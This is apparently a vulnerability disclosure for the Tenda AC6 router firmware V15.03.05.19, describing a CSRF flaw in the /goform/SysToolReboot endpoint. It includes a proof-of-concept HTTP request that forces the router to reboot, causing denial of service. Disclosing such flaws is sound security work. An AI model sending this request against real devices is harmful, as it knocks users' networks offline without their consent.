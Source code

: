 # Tenda AC6V1.0 V15.03.05.19 is vulnerable to Cross Site Request Forgery (CSRF) via function fromSysToolReboot

## Description

`Tenda`  Router **AC6V1.0 V15.03.05.19** is vulnerable to Cross Site Request Forgery (CSRF) via function `fromSysToolReboot`

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2681.html

## Affected version

![](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/SysToolReboot` page，The details are shown below:

![image-20221121104933692](images/02.png)

![image-20221121105008610](images/04.png)

## POC

This POC can result in a Dos.

```
GET /goform/SysToolReboot HTTP/1.1
Host: 192.168.204.133
Content-Length: 11525
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.204.133
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.204.133/system_hostname.asp?version=1487847846
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=jbl1qw; user=
Connection: close
```

![image-20221118151225120](images/03.png)